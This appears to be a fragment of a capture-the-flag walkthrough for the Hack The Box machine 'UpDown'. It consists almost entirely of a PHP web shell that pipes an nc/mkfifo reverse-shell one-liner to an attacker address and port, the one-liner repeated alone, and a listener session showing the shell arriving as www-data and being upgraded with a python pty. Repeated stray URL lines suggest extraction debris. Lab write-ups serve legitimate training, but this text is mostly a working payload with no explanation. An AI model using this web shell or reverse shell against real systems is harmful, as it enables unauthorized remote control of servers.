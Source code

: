 ```php
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb
http://siteisdown.htb


<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open("sh", $descriptorspec, $pipes);
if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.83 1234 >/tmp/f");
    fclose($pipes[0]);

    while (!feof($pipes[1])) {
        echo fgets($pipes[1], 1024);
    }
    fclose($pipes[1]);
    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.83 1234 >/tmp/f
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.227.227.
Ncat: Connection from 10.129.227.227:33780.
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /tmp
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@updown:/tmp$ 
```
